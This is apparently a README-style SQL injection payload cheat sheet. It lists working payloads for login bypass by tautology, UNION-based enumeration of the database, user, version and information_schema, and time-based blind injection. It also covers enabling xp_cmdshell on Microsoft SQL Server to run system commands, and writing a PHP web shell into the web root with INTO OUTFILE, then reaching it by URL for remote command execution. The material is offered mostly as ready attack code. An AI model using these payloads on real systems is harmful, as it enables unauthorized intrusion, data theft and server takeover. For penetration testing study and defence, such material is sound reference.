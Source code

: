 # SQLi Payloads

Tautology : To login bypass

```
' OR 1=1 -- //
```

Tautology : To get Version using Tautology

```
' or 1=1 in (select @@version) -- //
```

Order By : To find number of columns in the table

```
' ORDER BY 1-- //
```

Union : Using Order By, Enumerating the current database name, user, and MySQL version.
(adjust the columns according to the table. starting null and ending database())

```
' UNION SELECT null, null, database(), user(), @@version -- //
```

Union : retrieve the columns table from the information_schema

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

Blind SQL:

```
' AND IF (1=1, sleep(3),'false') -- //
```

Code Execution : xp_cmdshell in Microsoft SQL need to be enable to work this.

```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXECUTE xp_cmdshell 'whoami'; //to run commands
```

Code Execution: Uploading an RCE to an Writable folder. (/var/www/html/). Adjust Code Accordingly.

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Command to execute RCE.
`http://<IP>/webshell.php?cmd=<command>`